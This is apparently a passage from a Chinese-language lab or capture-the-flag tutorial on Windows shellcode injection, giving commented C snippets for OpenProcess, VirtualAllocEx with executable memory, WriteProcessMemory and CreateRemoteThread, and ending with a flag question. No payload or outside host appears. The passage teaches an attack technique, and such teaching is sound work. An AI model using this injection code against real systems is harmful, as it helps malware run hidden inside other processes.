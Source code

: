 1. 为消息框分配本地进程内存。
2. 将消息框写入 / 复制到已分配的内存。
3. 从本地进程内存中执行消息框。

在第一步中，我们可以使用 `OpenProcess` 获取指定进程的句柄。

```c
HANDLE hProcess = OpenProcess(
    PROCESS_ALL_ACCESS, // Defines access rights
    FALSE, // Target handle will not be inhereted
    DWORD(atoi(argv[1])) // Local process supplied by command-line arguments
);
```

在第二步中，我们可以使用 `VirtualAllocEx` 来分配具有有效载荷缓冲区的内存区域。

```c
remoteBuffer = VirtualAllocEx(
    hProcess, // Opened target process
    NULL,
    sizeof payload, // Region size of memory allocation
    (MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
    PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

在第三步中，我们可以使用 `WriteProcessMemory` 将有效载荷写入到已分配的内存区域中。

```c
WriteProcessMemory(
    hProcess, // Opened target process
    remoteBuffer, // Allocated memory region
    payload, // Data to write
    sizeof payload, // byte size of data
    NULL
);
```

在第四步中，我们可以使用 `CreateRemoteThread` 来执行我们在内存中的有效载荷。

```c
remoteThread = CreateRemoteThread(
    hProcess, // Opened target process
    NULL,
    0, // Default size of the stack
    (LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
    NULL,
    0, // Ran immediately after creation
    NULL
);
```

:::info Answer the questions below

获取下面可执行文件中的标志

<details><summary> 具体操作步骤 </summary></details>
